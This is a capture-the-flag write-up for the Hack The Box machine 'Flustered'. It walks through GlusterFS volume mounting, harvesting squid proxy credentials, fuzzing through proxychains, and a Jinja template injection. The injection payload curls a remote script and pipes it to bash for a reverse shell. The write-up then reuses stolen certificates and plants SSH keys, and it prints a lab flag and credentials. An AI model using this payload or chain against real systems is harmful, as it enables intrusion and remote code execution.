 # Flustered (Full Pwn)

## User

Starting with port scanning using nmap.
![nmap_scan](1.png)
We see a lot of ports open. In port 80 we see an empty webpage, fuzzing didn't help too. In 3128 there is http-proxy which might be useful later. We can't find anything interesting on most open ports. Searching the ports one by one we get an interesting result at the first link we find about 24007 port.
![google_glusterfs](2.png)
GlusterFS is a scale-out network-attached distributed storage file system. So we can mount the remote filesystem to our machine . We can install it using apt. Using gluster command we can list volumes from the remote machine.

` gluster --remote-host=10.129.96.25 volume list `

![gluster_list](3.png)
With ` volume info ` we can see more informations about the volumes. Now we mount the volumes to our system to enumerate for more information.

` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `

![gluster_list](7.png)

We can't mount the vol1.

![gluster_list](8.png)

We get the error cause we miss the ssl certificates to mount them. We mount the vol2 successfully. We can see a mysql directory and searching inside we can't find anything useful. In squid directory there is a file passwd.ibd and inside we found credentials.

![gluster_list](9.png)

We can use the credentials at squid proxy to see internal services in the machine. Using foxy proxy we navigate to 127.0.0.1 to see an nginx default page. Using proxychains to fuzz the web page. Edit the /etc/proxychains4.conf file to comment last line and the new one :
` http <IP> 3128 lance.friedman o>WJ5-jD<5^m3 `
Now we use proxychains command to go through squid proxy and fuzz the web page.
` proxychains -q wfuzz -c -w /usr/share/wordlists/dirb/big.txt --hc 404,400,403 -R5 -u http://127.0.0.1/FUZZ `
We discover an /app directory, but we get 403 forbidden, so fuzzing again the /app for more directories and files. Testing for .py files we got an app.py and got to the url and we prompt to download the file. Reading the source code we understand that it's the source code for the first web page out of the proxy. We can see that in title tag a function inside curly braces so can try ssti there to see if it's vulnerable.

![ssti_test](10.png)

And we get command execution. So we can get reverse shell in the machine with the following payload:

` {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read()}} `

We get reverse shell as www-data. Searching in /etc/ssl we find the certificates to access the vol1. We copy the files to our /etc/ssl/ directory and then mount the vol1 from gluster.
` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `
Now we can go to directory gfsvol to see the directories we mounted.

![vol1](4.png)

There is a directory named jennifer, probably a user of the remote machine, where we can see it's files. Inside there is the user.txt flag so we can read it.

![jennifer_dir](6.png)

**HTB{m0v1Ng_tHr0ugH_v0lUm3s_l1K3_a_jInj4}**

As it is a shared filesystem we can create our ssh keys and create the authorized_keys file to ssh into the machine.
